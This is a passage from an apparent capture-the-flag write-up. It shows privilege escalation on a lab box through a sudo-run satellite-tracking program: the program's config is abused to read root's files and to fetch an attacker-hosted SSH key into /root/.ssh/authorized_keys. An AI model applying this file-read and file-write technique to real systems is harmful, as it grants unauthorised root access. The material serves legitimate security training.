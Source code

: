 When I run this, it gets `root.txt`, but no key:

```

jovian@jupiter:~$ sudo sattrack 
Satellite Tracking System
Get:0 file:///root/root.txt
Get:1 file:///root/.ssh/id_rsa
Couldn't open file /root/.ssh/id_rsa
Satellites loaded
No sats

```

Still, `root.txt` is in the tleroot directory:

```

jovian@jupiter:~$ ls /tmp/tle/
'gp.php?GROUP=starlink&FORMAT=tle'   id_rsa   noaa.txt   root.txt   test   weather.txt
jovian@jupiter:~$ cat /tmp/tle/root.txt
239169f5************************

```

### File Write -> SSH

One way to get a shell as root would be to write an SSH key into `/root/.ssh/authorized_keys`. I’ll host my public key in a file named `authorized_keys` on my webserver, and add that to the config. I’ll also set the `tleroot` to `/root/.ssh` so that it writes there:

```

{
        "tleroot": "/root/.ssh/",
        "tlefile": "weather.txt",
        "mapfile": "/usr/local/share/sattrack/map.json",
        "texturefile": "/usr/local/share/sattrack/earth.png",

        "tlesources": [
                "http://10.10.14.6/authorized_keys"
        ],

        "updatePerdiod": 1000,

        "station": {
                "name": "LORCA",
                "lat": 37.6725,
                "lon": -1.5863,
                "hgt": 335.0
        },

        "show": [
        ],

        "columns": [
                "name",
                "azel",
                "dis",
                "geo",
                "tab",
                "pos",
                "vel"
        ]
}

```